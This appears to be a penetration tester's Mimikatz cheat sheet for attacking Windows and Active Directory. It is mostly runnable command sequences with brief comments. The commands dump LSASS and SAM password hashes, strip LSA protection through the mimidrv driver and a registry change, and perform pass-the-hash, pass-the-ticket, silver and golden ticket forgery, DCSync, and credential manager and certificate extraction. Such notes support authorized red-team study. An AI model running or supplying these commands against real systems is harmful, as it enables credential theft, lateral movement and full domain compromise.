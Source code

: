 # Mimikatz Cheatsheet
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]. Mimikatz is used to dump credentials:
- From windows protect memory (LSASS) and activity directory domain controller database
- Kerberos tickets
	- For all users
	- For current users
- Credential Injection
- Generate Silver/Golden tickets
	- [[Pass-The-Hash]]
	- [[Pass-The-Ticket]]
- And more

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. [[AD-Credential-Harvesting]]
`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0`

```powershell
privilege::debug
# Log to a txt file as the output can get very large 
log 
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```

```powershell
privilege::debug # enables the _SeDebugPrivilge_ access right
# Log to a txt file as the output can get very large 
log 
token::elevate # elevate the security token Administrator -> SYSTEM
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### Extracting NTLM hashes from local SAM

```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Extracting NTLM hashes from LSASS memory
Regularly
```powershell
privilege::debug
token::elevate
!+ # LSA protection bypass!
sekurlsa::msv
```
These hashes can be used to perform [[Pass-The-Hash]] attacks by using `mimikatz` to inject an access token for the vicitim user on any command!
```powershell
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```

Alternatively we `SeDebug` privilege use [[Sysinternals-Procdump]] or `Taskmanager`,  then `mimikatz`
```powershell
# Or Taskmanager -> [Right Click] lsass.exe -> Create dump file 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# run mimikatz use log file if required
mimikatz.exe
log # if required
# Target the memory dump
sekurlsa::minidump lsass.dmp
# Extract logonpasswords
sekurlsa::logonpasswords
```


## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Authenication-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
!+ # LSA protection bypass!
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
!+ # LSA protection bypass!
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
!+ # LSA protection bypass!
lsadump::dcsync /user:Administrator
```

## Credential Manager

```powershell
privilege::debug
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
sekurlsa::credman
```

## Certification Persistence

```powershell
# View CA Certificate on the DC 
crypto::certificates /systemstore:local_machine


privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
```